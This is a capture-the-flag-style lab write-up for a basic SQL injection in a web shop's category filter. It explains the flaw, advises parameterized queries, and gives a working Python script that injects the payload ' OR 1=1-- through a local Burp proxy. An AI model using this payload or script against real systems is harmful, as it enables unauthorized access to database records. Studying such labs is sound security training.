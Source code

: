 ```yaml
---
title: 'SQLi Lab 01'
description: 'Exploiting a basic SQL injection vulnerability to retrieve hidden data.'
---
```



## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

<div style="text-align: justify;">
  In this lab, I explored how a simple SQL injection (SQLi) vulnerability in the `WHERE` clause of an SQL query can lead to information disclosure. By injecting a classic `' OR 1=1--` payload into a URL parameter, I was able to bypass category filters and extract all records from the database. Despite its simplicity, this technique is highly effective when user inputs are not properly sanitized.

  This exercise reinforced how even the most basic SQLi attack vectors can severely undermine application logic, especially in web apps that rely on direct input embedding into database queries. It’s a reminder that developers must use parameterized queries or ORM-based access to prevent such issues.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The app filters products based on the `category` parameter in the URL.
- This value is directly embedded into the SQL `WHERE` clause.
- No sanitization or parameterization is performed.
- The injected payload `' OR 1=1--` forces the condition to always evaluate true.
- The server responds with **all** products in the database.
- The script confirms success by searching for a known product name in the response.

<Aside>
  You may need to update the product name `"Folding Gadgets"` in the script, depending on the lab instance.
</Aside>

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli(url, payload):
    uri = '/filter?category='
    r = requests.get(url + uri + payload, verify=False, proxies=proxies)
    if "Folding Gadgets" in r.text:
        return True
    else:
        return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        payload = "'+OR+1=1--"
    except IndexError:
        print("[-] Usage: %s <url>" %sys.argv[0])
        print('[-] Example: %s www.example.com' % sys.argv[0])
        sys.exit(-1)
        
    if exploit_sqli(url, payload):
        print("[+] SQL injection successful!")
    else:
        print("[-] SQL injection unsuccessful")
```


<Comment />
